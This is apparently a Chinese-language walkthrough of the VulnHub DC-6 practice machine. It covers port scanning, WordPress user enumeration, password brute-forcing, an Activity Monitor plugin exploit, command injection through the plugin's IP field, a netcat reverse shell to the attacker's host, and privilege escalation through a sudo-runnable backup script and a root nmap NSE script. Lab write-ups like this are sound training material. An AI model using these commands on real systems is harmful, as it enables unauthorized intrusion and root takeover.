# DC-6

项目地址：

```
https://www.vulnhub.com/entry/dc-6,315/
```


# 1.信息收集：

```shell
 masscan 192.168.32.156 -p 1-65535 --rate=1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-03-07 02:58:56 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 22/tcp on 192.168.32.156
Discovered open port 80/tcp on 192.168.32.156
```


## 1.1端口扫描

```shell
nmap -sV  -A  -sC 192.168.32.156 -p 22,80
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-06 22:02 EST
Nmap scan report for bogon (192.168.32.156)
Host is up (0.00049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
MAC Address: 00:0C:29:23:83:5B (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

 


绑定hosts文件

```shell
vim /etc/hosts

192.168.32.156 wordy
```


目录扫描除了后台地址并没有什么发现


# 2漏洞探测

枚举用户

```
wpscan --url http://wordy -e
```

```
#枚举出的用户名
admin
jens
graham
mark
sarah
```


 根据官网提示生成密码

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```


暴力破解

```
wpscan --url http://wordy/ -U users.txt -P passwords.txt
```


```
用户名/密码  mark/helpdesk01
```




# 3.漏洞利用

登录wordpress发现只是普通用户 不能上传文件getshell


插件getshell




kali本地搜索：

```
searchsploit activity monitor
```



```
python /usr/share/exploitdb/exploits/php/webapps/50110.py
```


输入IP 和用户名 密码 就可以getshell




# 4.提权：

```shell
#查看内核版本
 lsb_release -a 
 uname -a
```



 打算漏洞提权 但是执行命令会话直接断开


切换另外一种办法：

这个插件存在命令执行漏洞

抓包在输入IP 的地方加上  `| ls -al`   可以看到命令已经成功执行。




执行反弹shell：

```
nc -e /bin/bash 192.168.32.155 5555
```






在 /home/mark/stuff/things-to-do.txt 看到另一个用户的密码




切换用户：

```
su graham   
```

查看当前用户及其权限

```shell
whomai
sudo -l 列出目前的权限  #
```




发现可以以 jens 用户的权限操作 /home/jens 目录下的 backups.sh 文件

backups.sh的内容为：

```sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
```

在 backups.sh 文件末尾添加 /bin/bash ，当执行 backups.sh 文件时可切换至 jens 用户

```shell
echo "/bin/bash" >>/home/jens/backups.sh
sudo -u jens ./backups.sh   #sudo -u指定用户执行命令
```


查看权限目录权限，可以不用密码以root权限执行/usr/bin/nmap这个文件




nmap 可以执行脚本文件，可以创建一个文件并写入反弹 shell 的命令，默认用root 权限执行，所以反弹的 shell 也是 root

```shell
echo 'os.execute("/bin/bash")' >aaa.nse
sudo -u root nmap --script=aaa.nse   #以root用户执行 nmap 
```

# 5.获取flag

```
cd /root
cat theflag.txt
```

